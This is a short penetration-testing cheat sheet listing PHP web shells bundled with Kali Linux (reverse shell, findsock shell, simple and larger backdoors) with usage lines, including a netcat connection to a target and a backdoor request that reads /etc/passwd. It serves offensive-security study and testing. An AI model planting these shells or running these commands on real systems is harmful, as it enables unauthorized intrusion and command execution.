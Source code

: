 


## Kali Web Shells

The following shells exist within Kali Linux, under <code>/usr/share/webshells/</code> these are only useful if you are able to upload, inject or transfer the shell to the machine.

### Kali PHP Web Shells

Kali PHP reverse shells and command shells: 

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>/usr/share/webshells/php/<br>php-reverse-shell.php</code></p>
      </td>
      <td>
            <p>Pen Test Monkey - PHP Reverse Shell</p>
      </td>
    </tr>

     <tr>
      <td>
        <p><code>/usr/share/webshells/<br>php/php-findsock-shell.php</code></p>
        <p><code>/usr/share/webshells/<br>php/findsock.c</code></p>
      </td>
      <td>
            <p>Pen Test Monkey, Findsock Shell. Build <code>gcc -o findsock findsock.c</code> (be mindfull of the target servers architecture), execute with netcat not a browser <code>nc -v target 80</code></p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>/usr/share/webshells/<br>php/simple-backdoor.php</code></p>
      </td>
      <td>
            <p>PHP backdoor, usefull for CMD execution if upload / code injection is possible, usage: <code>http://target.com/simple-<br>backdoor.php?cmd=cat+/etc/passwd</code></p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>/usr/share/webshells/<br>php/php-backdoor.php</code></p>
      </td>
      <td>
            <p>Larger PHP shell, with a text input box for command execution.</p>
      </td>
    </tr>
      </tbody>
</table>
</div>

